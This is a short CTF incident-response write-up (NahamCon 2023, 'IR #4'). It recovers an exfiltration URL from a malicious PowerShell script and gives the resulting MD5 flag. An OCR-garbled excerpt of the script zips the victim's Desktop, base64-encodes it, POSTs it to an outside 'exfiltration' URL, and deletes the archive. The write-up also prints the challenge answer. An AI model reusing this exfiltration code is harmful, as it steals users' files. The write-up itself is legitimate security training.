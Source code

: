 # IR #4
> Where is the data being exfiltrated? Please give the MD5 hash of the URL with the usual wrapper of flag{}.

## About the Challenge
We need to find the threat actor server, and then hash it using MD5

## How to Solve?
You can see the threat actor server in the powershell script that we have obfuscate before (Check [IR #3](/2023/NahamCon%20CTF%202023/IR%20%233/))


[Image extracted text: Suser
[System.Security.Principal.WindowsIdentity]
Getcurrent( ) .Name. Split("| ") [-1]cR
encryptFiles("€: |Users
+Suser+
IDesktop
Add-Type
assembly
'system.io.compression.filesystem" cR
[io.compression.zipfile]::CreateFromDirectory("€: |Users | "+Suser+"
IDesktop
"C:lusers| "+Suser+" |Downloads |Desktop.zip"
SzipFileBytes
Get-Content
~Path ("C: lusers| "+Suser+
Downloads |Desktop.zip")
Raw
Encoding
Bytecr
SzipFileData
[Convert]
ToBase64String(SzipFileBytes)
Sbody
ConvertTo-Json
Inputobject @{file-SzipFileData}cr
Invoke-Webrequest
~Method Post
~Uri
'https:
WWW _
thepowershellhacker_
com/exfiltration"
Body
SbodycR
Remove-Item -LiteralPath ("C: |Users
'+Suser+" |Downloads |Desktop.zip'
2090]


And then hash it using this command

```shell
echo -n "https://www.thepowershellhacker.com/exfiltration" | md5sum
```

And then wrap the MD5 hash with `flag{}`

```
flag{32c53185c3448169bae4dc894688d564}
```